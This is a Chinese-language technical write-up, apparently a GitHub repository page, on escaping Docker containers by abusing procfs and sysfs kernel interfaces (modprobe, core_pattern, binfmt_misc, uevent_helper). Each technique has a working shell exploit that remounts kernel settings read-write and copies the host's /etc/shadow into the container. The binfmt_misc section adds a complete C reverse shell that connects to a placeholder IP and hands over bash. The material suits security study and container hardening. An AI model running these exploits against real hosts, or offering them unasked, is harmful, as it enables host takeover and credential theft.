









# 利用procfs/sysfs相关逃逸方式原理

- [procfs相关逃逸方法](#procfs------)
  * [procfs介绍](#procfs--)
  * [利用/proc/sys/kernel/modprobe](#---proc-sys-kernel-modprobe)
    + [modprobe相关解释](#modprobe----)
    + [利用原理](#----)
    + [EXP](#exp)
  * [利用/proc/sys/kernel/core_pattern](#---proc-sys-kernel-core-pattern)
    + [core_pattern相关解释](#core-pattern----)
    + [利用原理](#-----1)
    + [EXP](#exp-1)
  * [利用/proc/sys/fs/binfmt_misc](#---proc-sys-fs-binfmt-misc)
    + [什么是binfmt_misc](#---binfmt-misc)
    + [逃逸原理](#----)
    + [EXP](#exp-2)
    + [在容器内直接触发不等待宿主机操作](#----------------)
    + [修改解释器之后命令不能正常执行问题](#-----------------)
- [sysfs相关逃逸方法](#sysfs------)
  * [sysfs介绍](#sysfs--)
  * [利用/sys/kernel/uevent_helper](#---sys-kernel-uevent-helper)
    + [uevent_helper介绍](#uevent-helper--)
    + [EXP](#exp-3)
  * [利用/sys/fs/cgroup/devices/devices.allow](#---sys-fs-cgroup-devices-devicesallow)
  * [利用/sys/fs/cgroup/*/release_agent](#---sys-fs-cgroup---release-agent)
- [参考文档](#----)

## procfs相关逃逸方法

### procfs介绍

procfs全称proc filesystem，比较简单的说就是将内核中保存的进程数据，以目录结构的形式进行展示，在系统启动阶段会被挂载到/proc目录，除进程数据外/proc目录也包含了一部分非进程数据如/proc/crypto、/proc/devices等，其中大部分目录都是数据接口，其中/proc/sys目录下包含了动态可配置的内核选项，可以通过修改/proc/sys目录下文件对内核进行动态配置。

对procfs的详细介绍可以参考：https://en.wikipedia.org/wiki/Procfs

利用procfs进行容器逃逸使用到的内核相关特性都在/proc/sys下，可以参考：https://www.kernel.org/doc/html/v5.7/admin-guide/sysctl/ 确定每个文件对应的功能和使用方式

除了procfs外在linux 2.6版本后将大量非进程相关的系统信息移动到一个专门的伪文件系统称为sysfs挂载在/sys目录下，另外一部分逃逸方式方式是通过sysfs完成的，这部分在下边进行介绍

### 利用/proc/sys/kernel/modprobe

#### modprobe相关解释

/proc/sys/kernel/modprobe用于设置自动加载内核模块相关usermode helper的完成路径，默认是/sbin/modprobe，Linux内核安装或卸载模块的时候就会触发这个被指定的usermode helper，在[Documentation for /proc/sys/kernel/ - The Linux Kernel  documentation](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/kernel.html#modprobe)中也提到

> if userspace passes an unknown filesystem type to mount(), then the kernel will automatically request the corresponding filesystem module by executing this usermode helper.

也就是说执行一个未知的文件类型，内核也会去调用这个指定的程序

#### 利用原理

清楚了/proc/sys/kernel/modprobe的作用之后利用的原理就比较清晰了，替换原有的modprobe_path为恶意代码地址，执行一个未知文件类型，内核就会去调用恶意文件，执行恶意代码。
在docker中默认/proc/sys/kernel/modprobe是不可写入的，需要对/proc/sys以rw方式remount，才可以修改文件内容




#### EXP

```shell
mount -o rw,remount /proc/sys
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/bash' > /tmp/modp.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/modp.sh
chmod +x /tmp/modp.sh
echo $host_path/tmp/modp.sh > /proc/sys/kernel/modprobe
echo -ne '\xff\xff\xff\xff' > exp
chmod +x exp
./exp
sleep 2
cat /shadow
```
执行效果如下：



### 利用/proc/sys/kernel/core_pattern

#### core_pattern相关解释

当程序异常退出的时候会产生一个叫做core的文件，core文件会包含了程序运行时的内存，堆栈信息等，这个core文件也就是常说的coredump，/proc/sys/kernel/core_pattern用于设置coredump文件的文件名，并且当设置的第一个字符是"|"时，后续部分会被识别为需要执行的命令，具体支持的格式可以参考：[Documentation for /proc/sys/kernel/ - The Linux Kernel  documentation](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/kernel.html#core-pattern)

#### 利用原理

修改/proc/sys/kernel/core_pattern内容为恶意程序地址，当有程序异常退出时内核就会根据指定地址完成对恶意程序的执行

#### EXP

会造成coredump的程序a.c，编译为a
```c
#include <stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
```
还是仅以读取shaodow文件为例，其他文章经常提到的exp有个小技巧，使用了\r加空格隐藏的特性，\r在linux中的作用是将光标返回至行首，结合空格在显示的时候覆盖掉恶意内容

```shell
mount -o rw,remount /proc/sys
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/bash' > /tmp/a.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/a.sh
chmod +x /tmp/a.sh
echo -e "|$host_path/tmp/a.sh" > /proc/sys/kernel/
core_pattern
```
执行效果如下：



### 利用/proc/sys/fs/binfmt_misc

#### 什么是binfmt_misc

系统中存储着各种类型的程序，内核在执行时并不清楚那种程序需要使用什么解析器，为了能够让内核可以对大部分程序进行解析，提供了binfmt_misc特性，用户可以通过操作binfmt_misc的register文件告知内核某一类程序需要使用哪个解析器去执行

binfmt_misc的使用方式网上很多文章都有说明，可以参考进行测试：https://www.kernel.org/doc/html/latest/admin-guide/binfmt-misc.html

#### 逃逸原理

在容器中向内核注册一个新的文件类型和对应的解析器，指定文件魔术字符或文件后缀和对应的解析器，在解析器代码中写入恶意代码，当这类文件在宿主机上被执行时，内核就会调用攻击者注册的解析器进而完成恶意代码的执行

#### EXP

脚本参考[kcon Container escape in 2021中给出的POC](https://github.com/knownsec/KCon/blob/master/2021/Container%20escape%20in%202021.pdf)修改

选择宿主机ls文件的offset和magic，除去ELF文件头的位置，任意选择一段offset和magic对应即可



测试代码如下：`container.sh`
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "#!/bin/bash" > /tmp/handler.sh
echo "" >> /tmp/handler.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
chmod +x /tmp/handler.sh
echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
```
容器中执行
```shell
chmod +x container.sh
./container.sh
```

宿主机中执行
```shell
# run by root
ls
```
执行成功后容器根目录会写入宿主机shadow文件，利用效果如下



#### 在容器内直接触发不等待宿主机操作

目前仅在以下版本测试成功，在ubuntu 20.04.3 内核5.13.0测试失败原因还没有找到

测试环境

宿主机系统版本: CentOS Linux release 8.5.2111

宿主机内核版本: Linux 4.18.0-348.el8.x86_64 x86_64

容器系统版本: CentOS Linux release 8.4.2105

容器内核版本: Linux 4.18.0-348.el8.x86_64 x86_64

Docker版本: Docker Engine - Community 20.10.11


在实际攻击场景下，如何知道宿主机中被执行的二进制文件的offset和magic是个大问题，同一个命令在宿主机和容器中可能并不相同，有没有不需要宿主机操作直接容器里完成利用的方法呢？

binfmt_misc会受到mount namespace的限制，设置interpreter后在容器中执行受限于容器的chroot，所以需要在宿主机中执行，触发逃逸

在[[RFC v2 v2 0/1] ns: introduce binfmt_misc namespace](https://lore.kernel.org/lkml/87o9cbo96j.fsf@xmission.com/T/#e9ab6b0aa9934f26584d04319c318c7788a12fbd2)中提到

> With the 'F' flag, qemu-ppc-static will be then loaded from the main root filesystem before switching to the chroot.

也就是是说如果将flag设置为F，interpreter会在切换chroot前打开，也就是在宿主机的chroot空间中，但限制是当flag设置为F时，interpreter必须是有效的ELF文件，不能是sh脚本

测试EXP

reverse_shell.c
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <signal.h>
#include <dirent.h>
#include <sys/stat.h>

int tcp_port = 55555;
char *ip = "x.x.x.x";

void reverse_shell(){
    int fd;
    if ( fork() <= 0){
        setsid();

        struct sockaddr_in addr;
        addr.sin_family = AF_INET;
        addr.sin_port = htons(tcp_port);
        addr.sin_addr.s_addr = inet_addr(ip);
        fd = socket(AF_INET, SOCK_STREAM, 0);
        if ( connect(fd, (struct sockaddr*)&addr, sizeof(addr)) ){
            exit(0);
        }
        dup2(fd, 0);
        dup2(fd, 1);
        dup2(fd, 2);
        execve("/bin/bash", 0LL, 0LL);
       }
    return;
}

void main(int argc, char const *argv[])
{
       reverse_shell();
       return 0;
}
```
在容器中编译好，赋x权限

容器内修改sed命令的解释器，各个发行版sed对应的offset和magic可能不同，按照实际情况修改，容器内执行的代码如下：

测试容器里没有gcc，为了方便测试，宿主机编译好reverse_shell之后挂载到容器/t目录里
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
echo ":exp:M:240:\x30\xa6\x01\x00\x00\x00\x00\x00::/t/reverse_shell:F" > /tmp/binfmt_misc/register
chmod +x /t/reverse_shell
sed
```



#### 修改解释器之后命令不能正常执行问题
  
完成binfmt_misc修改之后宿主机上原本的命令执行会出现问题，无法正常使用
   
增加binfmt_misc之后宿主机正常二进制文件无法执行的原因是新注册的解释器并没有对二进制文件进行执行，只是完成了漏洞利用的逻辑，在centos中（本文仅对contos进行了测试，其他linux发行版没有进行测试），系统通过`/lib64/ld-linux-x86-64.so.2`执行二进制文件，通过file命令也可以验证二进制文件的解释器如下图
   

    
所以解决这个问题的方式就比较简单了，修改container.sh内容为如下：
    
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "#!/bin/bash" > /tmp/handler.sh
echo "" >> /tmp/handler.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
# add this
echo "/lib64/ld-linux-x86-64.so.2 /usr/bin/ls" >> /tmp/handler.sh
chmod +x /tmp/handler.sh
echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
```

    命令正常被执行

## sysfs相关逃逸方法

### sysfs介绍

### 利用/sys/kernel/uevent_helper

#### uevent_helper介绍

在linux中提供了udev和mdev这两个使用uevent机制处理热插拔问题的用户空间程序，udev基于netlink机制，依赖于系统启动的deamon进程systemd-udevd，这个进程监听内核发送的uevent信息去执行热拔插操作，mdev是基于uevent_helper机制，提供了/proc/sys/kernel/hotplug和/sys/kernel/uevent_helper接口用于设置对应的处理程序地址

#### EXP

不同的linux发行版使用的uevent机制是不同的，centos使用udev机制，所以没有/proc/sys/kernel/hotplug和/sys/kernel/uevent_helper接口，这里使用ubuntu 20.04.3进行测试`docker run -it --cap-add=SYS_ADMIN --security-opt=apparmor:unconfined ubuntu`

```shell
mount -o rw,remount /sys
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/bash' > /tmp/test.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/test.sh
chmod +x /tmp/test.sh
echo $host_path/tmp/test.sh > /sys/kernel/uevent_helper
echo change > /sys/class/mem/null/uevent
cat /shadow
```



### 利用/sys/fs/cgroup/devices/devices.allow

参考之前的文章: [重写devices.allow逃逸方式原理](https://github.com/SPuerBRead/ddup/blob/master/Docker%E7%9B%B8%E5%85%B3/%E9%87%8D%E5%86%99devices.allow%E9%80%83%E9%80%B8%E6%96%B9%E5%BC%8F/%E9%87%8D%E5%86%99devices.allow%E9%80%83%E9%80%B8%E6%96%B9%E5%BC%8F.md)

### 利用/sys/fs/cgroup/*/release_agent

参考之前的文章: [notify_on_release逃逸方式原理](https://github.com/SPuerBRead/ddup/blob/master/Docker%E7%9B%B8%E5%85%B3/notify_on_release%E9%80%83%E9%80%B8%E6%96%B9%E5%BC%8F/notify_on_release%E9%80%83%E9%80%B8%E6%96%B9%E5%BC%8F%E5%8E%9F%E7%90%86.md)


## 参考文档

1. [Container escape in 2021](https://github.com/knownsec/KCon/blob/master/2021/Container%20escape%20in%202021.pdf)
2. [sysctl-kernel](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/kernel.html)    
3. [Linux Kernel Exploitation Technique: Overwriting modprobe_path](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/)
4. [sysfs(5) — Linux manual page](https://man7.org/linux/man-pages/man5/sysfs.5.html)